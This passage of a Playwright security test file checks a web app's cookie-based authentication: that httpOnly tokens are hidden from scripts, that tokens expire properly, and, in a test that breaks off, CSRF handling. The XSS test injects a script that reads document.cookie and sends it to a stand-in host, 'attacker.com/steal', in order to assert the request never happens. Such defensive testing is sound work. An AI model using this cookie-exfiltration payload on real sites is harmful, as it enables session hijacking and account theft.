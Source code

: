 ```typescript
    const cookieValue = await page.evaluate(() => {
      return document.cookie;
    });

    // httpOnly cookies should NOT be accessible
    expect(cookieValue).not.toContain('__Host-access-token');
    expect(cookieValue).not.toContain('__Host-refresh-token');
  });

  test('should prevent XSS token theft attempt', async ({ page }) => {
    await page.goto('http://localhost:3003');

    // Login first
    await loginUser(page, 'test@example.com', 'password123');

    // Inject XSS payload
    await page.evaluate(() => {
      const script = document.createElement('script');
      script.textContent = `
        const token = document.cookie;
        fetch('https://attacker.com/steal', {
          method: 'POST',
          body: token
        });
      `;
      document.body.appendChild(script);
    });

    // Monitor network requests
    const requests: string[] = [];
    page.on('request', req => requests.push(req.url()));

    await page.waitForTimeout(1000);

    // Should NOT see request to attacker domain
    expect(requests.some(url => url.includes('attacker.com'))).toBe(false);
  });

  test('should handle token expiration gracefully', async ({ page }) => {
    await page.goto('http://localhost:3003');

    // Login
    await loginUser(page, 'test@example.com', 'password123');

    // Verify logged in
    await expect(page.locator('[data-testid="user-menu"]')).toBeVisible();

    // Simulate expired token (clear cookies)
    await page.context().clearCookies();

    // Try to access protected resource
    await page.reload();

    // Should redirect to login
    await expect(page.locator('[data-testid="login-form"]')).toBeVisible();
  });

  test('should prevent CSRF attack', async ({ page, context }) => {
    // Login on legitimate site
    await page.goto('http://localhost:3003');
    await loginUser(page, 'test@example.com', 'password123');

    // Open attacker's page in new tab
```